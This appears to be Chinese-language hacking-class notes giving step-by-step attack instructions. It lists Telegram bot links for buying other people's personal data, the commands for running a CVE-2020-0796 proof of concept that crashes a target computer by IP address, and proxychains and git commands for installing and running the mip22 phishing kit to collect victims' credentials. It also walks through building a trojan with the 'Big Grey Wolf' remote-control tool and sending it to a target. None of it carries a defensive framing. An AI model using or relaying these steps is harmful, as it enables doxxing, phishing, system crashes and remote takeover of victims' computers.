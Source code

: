 ## 社工库

利用telegram进入社工群，获取他人信息

电报机器人群聊链接

###### https://t.me/DATA_007bot?start=8989324940

###### https://t.me/pingansgk_bot?start=ee95c5680f

###### https://t.me/JokerSGKbot?start=87OE61VQ

######  https://t.me/PyramidNetBot?start=pRg3K08

###### https://t.me/XingDun2Bot?start=4eoHoLE

## 永恒之黑

利用python打开代码让别人的电脑蓝屏

下载老师给的CVE-2020-0796-PoC 解压

打开解压的目录 在目录打开终端（在上面输入cmd进入终端）

安装打开文件所需要的模块 cryptography

运行文件，系统会提醒缺少什么模块

在后面添加源可以让pip下载更快（/-i https://pypi.tuna.tsinghua.edu.cn/simple)

输入代码 python CVE-2020-0796.py ＋IP地址

## 制作钓鱼网站mip22

1.配置网络代理

打开Allow LAN开关 找到自己的代理的IP(Allow LAN)英文旁边的连接符（三角形）和代理端口（port)

![img](https://cdn.nlark.com/yuque/0/2023/png/40675528/1701171934842-ca11aaba-9c78-4e6a-9441-c52008c0fc0b.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/40675528/1701172209410-7ac40a3c-4155-4daf-94cb-702d213d5fec.png)

vim /etc/proxychains4.conf   用vim编辑器打开代理文件

![img](https://cdn.nlark.com/yuque/0/2023/png/40675528/1701172395912-3b7710e0-9f48-416e-b224-b95ea6e25709.png) 找到最后一行 将socks4改为socks5 ＋ clash上的代理地址和端口

proxychains4 git clone https://github.com/makdosx/mip22 利用网站下载文件

cd mip22  进入mip22目录

chmod +x  /* 将目录的所有文件拥有可执行权限

proxychains4 -q bash ./mip22.sh  执行mip22

进入mip22界面 按1进入 钓鱼网站界面 选择钓鱼网站 按3  开始收集信息

## 利用大灰狼远程控制系统

1，关闭自身的病毒查杀和防火墙

2，解压大灰狼压缩包

3，打开大灰狼   输入自己的IP地址 生成木马文件

4，发送到目标电脑 

5，目标电脑点击后 可以控制对方